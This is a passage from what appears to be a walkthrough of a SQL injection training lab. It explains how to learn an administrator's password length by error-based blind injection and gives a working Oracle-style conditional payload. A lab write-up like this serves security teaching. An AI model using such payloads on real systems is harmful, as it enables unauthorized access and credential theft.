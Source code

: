 5. Now log in as the administrator and we're done.
![image](./Attachments/SQL-Lab12-10.png)

Miscellaneous: How to retrieve password length.

1. As we know here we can raise errors using conditional statements. We will now use this for retrieving password length. Let's now generate a payload to raise an error when the password length matches. Payload: `' AND (SELECT CASE WHEN (LENGTH(password)=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a`
![image](./Attachments/SQL-Lab12-14.png)